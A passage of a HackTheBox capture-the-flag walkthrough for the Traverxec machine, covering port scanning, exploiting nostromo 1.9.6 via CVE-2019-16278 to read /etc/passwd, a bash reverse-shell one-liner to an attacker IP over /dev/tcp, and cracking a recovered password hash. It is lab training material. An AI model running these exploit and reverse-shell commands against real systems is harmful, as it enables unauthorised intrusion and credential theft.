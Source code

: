 ![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/6bd1fabe-e487-4657-90a4-a896dae1d1e7)

https://app.hackthebox.com/machines/Traverxec

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Enumeration:

I started the enumeration using quick rust scan to check for open ports & services:

```bash
sudo rustscan -a 10.10.10.165 -- -sC -sV -vv -oN traver_nmap
```

```Rust
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDVWo6eEhBKO19Owd6sVIAFVCJjQqSL4g16oI/DoFwUo+ubJyyIeTRagQNE91YdCrENXF2qBs2yFj2fqfRZy9iqGB09VOZt6i8oalpbmFwkBDtCdHoIAZbaZFKAl+m1UBell2v0xUhAy37Wl9BjoUU3EQBVF5QJNQqvb/mSqHsi5TAJcMtCpWKA4So3pwZcTatSu5x/RYdKzzo9fWSS6hjO4/hdJ4BM6eyKQxa29vl/ea1PvcHPY5EDTRX5RtraV9HAT7w2zIZH5W6i3BQvMGEckrrvVTZ6Ge3Gjx00ORLBdoVyqQeXQzIJ/vuDuJOH2G6E/AHDsw3n5yFNMKeCvNNL
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLpsS/IDFr0gxOgk9GkAT0G4vhnRdtvoL8iem2q8yoRCatUIib1nkp5ViHvLEgL6e3AnzUJGFLI3TFz+CInilq4=
|   256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGJ16OMR0bxc/4SAEl1yiyEUxC3i/dFH7ftnCU7+P+3s
80/tcp open  http    syn-ack ttl 63 nostromo 1.9.6
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After the scan completed I found only 2 open ports 22 & 80. I also, noticed that the web server is running "nostrormo 1.9.6".

I checked in searchsploit database if there is any exploit available for this version & I found 3:

```bash
searchsploit nostrormo
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f5d6e281-0d88-4215-9b8d-82209ced2dc6)

## Initial access:

After checking the results of serachsploit I observed that only 2 are showing the relevant version & from these 2 only 1 is having python exploit as other one is showing the metasploit exploit.
To not use the metasploit, I downloaded the python exploit & made some changes in the scirpt as it was showing error while running.

After making the necessary changes, I executed the script & observed the results:

```bash
python cve-2019-16278.py 10.10.10.165 80 'cat /etc/passwd'
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/a24e9815-044f-402b-b87b-7e3d7e90c107)

In the /etc/passwd file I observed 1 user "david".

Moving further to get a reverse shell, I used bash one-liner & executed it using the python script. After the execution I quickly received the reverse shell in my netcat listener. 🙂

```bash
python cve-2019-16278.py 10.10.10.165 80 'bash -c "bash -i >& /dev/tcp/10.10.14.128/53 0>&1"'
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/3b02ff8a-35ab-4d78-b109-108963928749)

## User access:

Now, I got the initial access as user "www-data" but I still don't have the user flag or sufficient access to read david's file.
To gain access as david, I started looking for manually & in one of the directory "/var/nostromo/conf" I found hashed credential belongs to david.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e1ff9641-baee-4355-91e9-7b302ca5dfb2)

I cracked this hash & gained the cleartext password from it:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/9393b618-85b9-4d42-ab73-9fe7db127132)

Using this password I tried to switch to David from www-data & also tried to login via SSH but none of them worked. 😕




